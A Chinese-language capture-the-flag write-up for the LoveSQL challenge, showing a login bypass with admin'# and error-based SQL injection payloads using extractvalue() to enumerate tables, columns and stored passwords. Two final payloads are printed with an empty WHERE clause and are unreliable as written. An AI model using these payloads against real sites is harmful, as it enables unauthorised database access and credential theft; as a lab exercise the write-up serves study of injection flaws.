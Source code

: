 # \[极客大挑战 2019]LoveSQL

## \[极客大挑战 2019]LoveSQL

## 考点

* SQL注入万能密码登陆
* 报错注入

## wp

用户名为 `admin'#` 密码任意填写，成功登陆

用户名 `admin' order by 10 #` 提示\
`Unknown column '10' in 'order clause'`

使用报错注入，payload : `admin' and extractvalue(1,concat(0x7e,(select @@version),0x7e)) #`

获取geek库中的表 `admin' and extractvalue(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='geek' limit 1,1),0x7e)) #`

比较关键的是 `l0ve1ysq1`，`geekuser`

获取表中的列 `admin' and extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='geekuser'),0x7e)) #`

两个表中的列都是 `id,username,password`

测试了一下发现 flag 在 l0ve1ysq1 的最后一个用户的 password 中

正序输出\
`admin' and extractvalue(1,concat(0x7e,(select password from l0ve1ysq1 where ),0x7e)) #`

逆序输出\
`admin' and extractvalue(1,concat(0x7e,(select reverse(password) from l0ve1ysq1 where ),0x7e)) #`

拼接一下 flag 即可
